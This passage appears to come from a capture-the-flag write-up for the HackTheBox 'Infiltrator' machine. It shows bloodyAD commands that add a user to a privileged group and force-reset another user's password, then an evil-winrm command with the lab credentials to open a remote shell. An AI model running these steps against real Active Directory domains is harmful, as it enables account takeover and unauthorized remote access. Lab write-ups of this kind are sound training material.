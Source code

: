 ![](images/Pasted%20image%2020250417142103.png)
group `Chiefs marketing` could force change the password of `M.harris`

Let's follow the paths step by step:
Firstly, add into group
```
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --dc-ip 10.10.11.31 -u e.rodriguez -p "@wither123456" -k add groupMember "CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB" e.rodriguez
```

Secondly, change the password of `M.harris`
```
bloodyAD --host "dc01.infiltrator.htb" -d "infiltrator.htb" --kerberos --dc-ip 10.10.11.31 -u "e.rodriguez" -p "@wither123456" set password "m.harris" "@wither123456"
```

From the bloodhound, we found `M.harris` is in the group `Remote Management`

Then we can use evil-winrm to get the shell
`m.harris:@wither123456` 
`evil-winrm -i infiltrator.htb -u m.harris -p '@wither123456'`
There is a tricky problem from this machine, we can not use password to access into the shell as `m.harris`
